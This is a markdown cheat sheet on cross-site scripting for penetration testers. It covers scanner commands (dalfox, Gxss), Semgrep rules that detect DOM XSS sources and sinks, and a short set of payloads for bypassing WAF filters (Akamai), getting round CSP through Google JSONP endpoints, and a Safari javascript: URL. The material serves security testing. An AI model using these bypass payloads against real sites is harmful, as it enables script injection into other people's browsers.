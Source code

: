 +++
title = 'XSS'
+++

```
# https://github.com/hahwul/dalfox
dalfox url http://example.com
cat urls | dalfox pipe -  --skip-bav --skip-mining-all
```

Find reflected parameters that could lead to XSS with Gxss

```
# https://github.com/KathanP19/Gxss
cat list | Gxss -c 100 -p REPLACE_STRING
```

## Semgrep

Semgrep can be used to detect sink and sources and assist in XSS detection.

### Usage

Download javascript files and beautify them (See [Javascript](https://caon.io/docs/exploitation/javascriptfiles/#download)), then run semgrep with

```
semgrep -c xss.yaml scripts/*
```

{{< hint danger >}} **Hold down!**

Javascript files must be beautified, otherwise semgrep will no work properly. {{< /hint >}}

```yaml
rules:
  - id: domxss-insertAdjacentHTML
    languages:
      - javascript
      - typescript
    message: Found dangerous HTML output
    pattern-either:
      - pattern: document.location.search = ...
      - pattern: document.location.hash = ...
      - pattern: document.location.pathname = ...
      - pattern: window.location.search = ...
      - pattern: window.location.hash = ...
      - pattern: window.location.pathname = ...
      - pattern: document.URL = ...
      - pattern: document.documentURI = ...
      - pattern: document.baseURI = ...
      - pattern: document.cookie = ...
      - pattern: document.referrer = ...
      - pattern: $X.insertAdjacentHTML(...)
      - pattern: $X.innerHTML(...)
      - pattern: $X.innerHTML = ...
      - pattern: eval(...)
      - pattern: execScript
      - pattern: script.src = ...
      - pattern: iframe.src = ...
      - pattern: document.location = ...
      - pattern: window.location = ...
      - pattern: document.location.href = ...
      - pattern: window.location.href = ...
      - pattern: document.write(...)
      - pattern: document.writeln(...)
      - pattern: $X.outerHTML = ...
      - pattern: $X.outerHTML(...)
    severity: WARNING
```

```yaml
rules:
  - id: domxss-insertAdjacentHTML
    languages:
      - javascript
      - typescript
    message: Found dangerous HTML output
    mode: taint
    pattern-sources:
      - pattern: document.location.search
      - pattern: document.location.hash
      - pattern: document.location.pathname
      - pattern: document.location.href
      - pattern: document.location
      - pattern: window.location
      - pattern: window.location.href
      - pattern: window.location.search
      - pattern: window.location.hash
      - pattern: window.location.pathname
      - pattern: document.URL
      - pattern: document.documentURI
      - pattern: document.baseURI
      - pattern: document.cookie
      - pattern: document.referrer
    pattern-sinks:
      - pattern: $X.insertAdjacentHTML(...)
      - pattern: $X.innerHTML(...)
      - pattern: $X.innerHTML = ...
      - pattern: eval(...)
      - pattern: execScript
      - pattern: script.src = ...
      - pattern: iframe.src = ...
      - pattern: document.location = ...
      - pattern: window.location = ...
      - pattern: document.location.href = ...
      - pattern: window.location.href = ...
      - pattern: document.write(...)
      - pattern: document.writeln(...)
      - pattern: $X.outerHTML = ...
      - pattern: $X.outerHTML(...)
    severity: WARNING
```

## Markdown

Markdown parsers can lead to XSS

- https://swarm.ptsecurity.com/fuzzing-for-xss-via-nested-parsers-condition/

## Bypass

Try to encode characters with unicode to achieve WAF bypass

alert(1) would become ale\u{72}t(1\x29, where

\u{72} is unicode to r
\x29 is unicode to )

## Akamai Bypass

Sometimes works:

```
"><a/\test="%26quot"href=%27javascript:/**/;\ale\u{72}t(11111\x29");%27>Click
"><a/\test="%26quot;x%26quot;"href=%27javascript:/**/;location.assign("google.com")%27>Click</a>
```

## Enconding

- https://www.sonarsource.com/blog/encoding-differentials-why-charset-matters

## CSP Bypass

If the site has google whitelisted, the following could be used:

```
www.google.com/complete/search?client=chrome&q=1&jsonp=alert(1)//
accounts.google.com/o/oauth2/revoke?callback=alert(1)
```

- https://lab.wallarm.com/how-to-trick-csp-in-letting-you-run-whatever-you-want-73cb5ff428aa/

## Safari

```
javascript://trusted.example.com/%0Aalert()
```

# Cool resources

| URL | Description |
| --- | --- |
| https://xss.pwnfunction.com/ | pwnfunction XSS game |
| https://github.com/s0md3v/MyPapers/tree/master/Bypassing-XSS-detection-mechanisms | Bypass Mechanisms | 
| https://htmlparse.hackaplaneten.se/ | Parser Issues |
| http://domloggerpp-workshop.mizu.re:5173/ | DOM XSS Labs |
| https://aszx87410.github.io/beyond-xss/en/ | great source |
